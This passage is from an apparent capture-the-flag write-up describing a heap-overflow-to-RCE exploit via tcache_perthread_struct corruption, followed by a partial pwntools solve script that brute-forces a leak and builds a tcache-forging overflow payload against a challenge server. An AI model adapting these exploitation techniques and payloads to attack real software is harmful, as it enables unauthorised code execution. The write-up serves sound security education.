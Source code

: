 ### Step 2: Heap Overflow to RCE

What can we do with a heap overflow?

With some research, we can find out that there is actually a heap chunk that is already allocated in the heap, the `tcache_perthread_struct` which stores the state of the tcache for each running thread.

By overflowing into this struct, we can control the tcache free list to gain arbitrary allocation.

1. Arbitrary allocation into global `struct profile life` variable to overwrite `yourName` to point to GOT entry
2. Show life stats to print `yourName` and leak libc address
3. Repeat steps 1 and 2, to leak `environ` or a stack address from `TLS`
4. Repeat steps 1 and 2, to allocate a ROP chain to the stack to get RCE.

This is the rough overview of the exploit, the detailed exploit path shall be left as homework for the reader.

### Solve script

```py
from pwn import *

context.binary = elf = ELF("./service/chall")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
if args.REMOTE:
    p = remote("challs.nusgreyhats.org", 32834)
else:
    p = process("./service/chall", aslr=True)
stat = log.progress("enum")
i = 0

while True:

    p.sendlineafter(b"Action: ", b"8")
    p.sendlineafter(b"Action: ", b"5")
    p.sendlineafter(b"Action: ", b"6")
    p.sendlineafter(b"Action: ", b"1")

    p.recvuntil(b"Name: ")
    try:
        leak = unpack(p.recvline().split()[1], "all")
    except:
        continue
    i += 1
    stat.status(f"{i} {hex(leak)}")
    if leak == 0x405:
        break

stat.success(f"beap found after {i} tries")

p.sendlineafter(b"Action: ", b"2")
p.sendlineafter(b"> ", str(2**31).encode()) # prepare for buffer overflow

payload = b"A"*0xe80
payload += p64(0x0) + p64(0x291)
payload += p16(0x0)*15
payload += p16(0x1)
payload += p16(0x0)*48
payload += p64(0x0)*15
payload += p64(0x404100)


p.sendlineafter(b"Action: ", b"7")
```
